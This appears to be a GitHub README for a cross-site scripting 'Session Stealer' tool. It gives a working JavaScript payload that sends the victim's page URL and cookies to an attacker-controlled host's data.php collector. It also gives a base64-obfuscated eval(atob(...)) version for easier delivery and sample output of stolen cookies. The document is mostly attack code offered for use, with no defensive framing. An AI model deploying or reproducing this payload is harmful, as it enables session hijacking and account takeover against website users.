 # Session Stealer (Cross-site Scripting)

Using the JavaScript payload found below will result in a AJAX POST request containing the current URL (including variables) and Cookie(s) (if available).

The `data.php` file will create or append the data received to `output.txt`.

Data can be read directly from `output.txt` or using the included `output.php` file to process a cleaner output.



## JavaScript Payload

```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://<host>/data.php", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
var data = "URL: " + window.location.href
if (document.cookie.length > 0) { data = data + " - Cookie(s): " + document.cookie; }
xhttp.send("data=" + btoa(data));
```

Payloads are often easier to deliver when encoded:

```
eval(atob("<base64_encoded_payload>"));
```
```
eval(atob("dmFyIHhodHRwID0gbmV3IFhNTEh0dHBSZXF1ZXN0KCk7CnhodHRwLm9wZW4oIlBPU1QiLCAiaHR0cHM6Ly88aG9zdD4vZGF0YS5waHAiLCB0cnVlKTsKeGh0dHAuc2V0UmVxdWVzdEhlYWRlcigiQ29udGVudC10eXBlIiwgImFwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCIpOwp2YXIgZGF0YSA9ICJVUkw6ICIgKyB3aW5kb3cubG9jYXRpb24uaHJlZgppZiAoZG9jdW1lbnQuY29va2llLmxlbmd0aCA+IDApIHsgZGF0YSA9IGRhdGEgKyAiIC0gQ29va2llKHMpOiAiICsgZG9jdW1lbnQuY29va2llOyB9CnhodHRwLnNlbmQoImRhdGE9IiArIGJ0b2EoZGF0YSkpOw=="));
```

## Output (via output.php)
```
Wed, 22 Jan 2020 19:45:10 +0000 - 216.58.204.142 - URL: https://www.youtube.com/watch?v=dQw4w9WgXcQ - Cookie(s): GPS=1; CONSENT=WP.282c94; dkv=a429137dbfccc284af4358caae87b369e3QEAAAAdGxpcGkVfCheMA==
```
